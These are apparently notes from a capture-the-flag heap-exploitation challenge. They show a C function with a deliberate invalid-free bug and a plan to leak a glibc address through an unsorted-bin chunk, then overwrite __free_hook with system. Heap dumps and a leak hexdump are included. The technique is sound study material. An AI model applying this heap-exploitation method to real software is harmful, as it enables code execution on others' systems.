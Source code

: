 ```c
void blast(char* buf) {
    // Vul_3: Invalid Free
    read(STDIN_FILENO, buf, 0x20);
    free(buf+0x10);
}
```
vulnerable because it doesn't start freeing from the head which might cause some unexpected behavior


# heap Buffer overflow

Focusing on the buffer overflow vulnerability, 

# Attempt 1:
obtain attack primitive
1. get arbirary read (with print records), leak glibc address and calculate system 
2. get arbirary write, overwrite __free_hook to system address 
## get arbirary read 
make use of unsortedbin that shows glibc address
```
Free chunk (fastbins) | PREV_INUSE
Addr: 0x55808ebc5710
Size: 0x20 (with flag bits: 0x21)
fd: 0x00

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55808ebc5730
Size: 0xa0 (with flag bits: 0xa1)
fd: 0x7fa55762fbe0
bk: 0x7fa55762fbe0

Free chunk (tcachebins)
Addr: 0x55808ebc57d0
Size: 0x20 (with flag bits: 0x20)
fd: 0x55808ebc5660

```
got it! Got one in unsorted bin, now the fd and bk points to glibc addresses 
```
fd: 0x7fa55762fbe0
bk: 0x7fa55762fbe0
```
and I should somehow print them out, perhaps using print_records, parse, then get it



I can now successfully leak a glibc address:
```
Description: [DEBUG] Received 0xd8 bytes:
    00000000  41 41 41 41  41 41 41 41  e0 cd 13 9a  d6 7f 00 00  │BBBB│BBBB│····│····│
    00000010  0a 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │·===│====│====│====│
    00000020  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │====│====│====│====│
    00000030  3d 3d 3d 0a  5b 45 6d 70  74 79 20 52  65 63 6f 72  │===·│[Emp│ty R│ecor│
    00000040  64 5d 0a 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │d]·=│====│====│====│
    00000050  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │====│====│====│====│
    00000060  3d 3d 3d 3d  3d 0a 5b 45  6d 70 74 79  20 52 65 63  │====│=·[E│mpty│ Rec│
    00000070  6f 72 64 5d  0a 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │ord]│·===│====│====│
    00000080  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │====│====│====│====│
    00000090  3d 3d 3d 3d  3d 3d 3d 0a  5b 45 6d 70  74 79 20 52  │====│===·│[Emp│ty R│
    000000a0  65 63 6f 72  64 5d 0a 3d  3d 3d 3d 3d  3d 3d 3d 3d  │ecor│d]·=│====│====│
    000000b0  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  3d 3d 3d 3d  │====│====│====│====│
    000000c0  3d 3d 3d 3d  3d 3d 3d 3d  3d 0a 5b 45  6d 70 74 79  │====│====│=·[E│mpty│
```